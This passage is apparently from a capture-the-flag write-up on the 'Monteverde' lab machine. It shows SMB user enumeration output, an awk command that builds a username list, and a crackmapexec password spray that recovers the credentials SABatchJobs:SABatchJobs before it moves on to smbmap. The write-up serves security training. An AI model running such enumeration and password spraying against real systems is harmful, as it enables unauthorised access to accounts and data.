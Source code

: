 The `tee` commands prints the results to stdout as well so that we can review sooner.

From the results, we gather a list of usernames.

```
 ============================= 
|    Users on 10.10.10.172    |
 ============================= 
 <SNIP>
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
<SNIP>
```

We can format the above into a proper user list with `awk`.

`awk -F'[' '{print $2}' extractfromenum4linux.txt | awk -F']' '{print $1}' > users.txt`

Not elegant, but it does the job.

## Password Spraying

With the list of users, we try exploiting the possible weak credentials suggested by this [OWASP reference](https://wiki.owasp.org/index.php/Testing_for_default_credentials_(OTG-AUTHN-002)).

Trying the usernames as passwords panned out.

```
# crackmapexec smb 10.10.10.172 -u users.txt -p users.txt 
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
<SNIP>
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs 
```

Found credentials:

* username: SABatchJobs
* password: SABatchJobs

## Re-enumerating SMB

With this newfound set of credentials, let's try to access the SMB shares again.

The tool `smbmap` offers a convenient way to check out SMB without mounting it. In particular, the `-R` flag recurses through all the directories and lists all files.
